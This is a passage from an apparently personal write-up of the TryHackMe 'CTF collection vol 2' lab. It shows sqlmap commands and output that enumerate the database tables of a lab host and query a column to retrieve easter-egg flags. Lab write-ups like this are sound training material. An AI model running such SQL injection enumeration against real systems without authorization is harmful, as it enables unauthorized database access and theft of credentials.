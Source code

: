 ```bash
+----------+-------------+
| password | varchar(40) |
| username | varchar(30) |
+----------+-------------+

[16:57:10] [INFO] fetched data logged to text files under '/Users/vipin/.local/share/sqlmap/output/10.10.121.142'

[*] ending @ 16:57:10 /2024-02-05/
```

- Wow ok, let's look in the *Easter_4* Column and make another query (the google cyber cert really paying off rn)...

```bash
❯ python3 sqlmap.py  --dbs -r /Users/vipin/tech/CTFs/TryHackMe/ctfcolvol2/postreq.txt -D THM_f0und_m3 -t nothing_inside -C Easter_4 --sql-query "SELECT Easter_4 FROM nothing_inside"
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.2#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

```

- YES!

![Image showing me finding the flag in the source](blog/ctfcollectionvol2pics/easteregg3.png 'Fig.6')
<div style={{ textAlign: 'center' }}>
  <small>Fig.6</small>
</div>
## 🪺 Easter 5

- There was a *user* table from the last easter, lets check that out now...

```bash

❯ python3 sqlmap.py  --dbs -r /Users/vipin/tech/CTFs/TryHackMe/ctfcolvol2/req2.txt -D THM_f0und_m3 -t user --columns
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.2#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(40) |
| username | varchar(30) |
+----------+-------------+

Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
```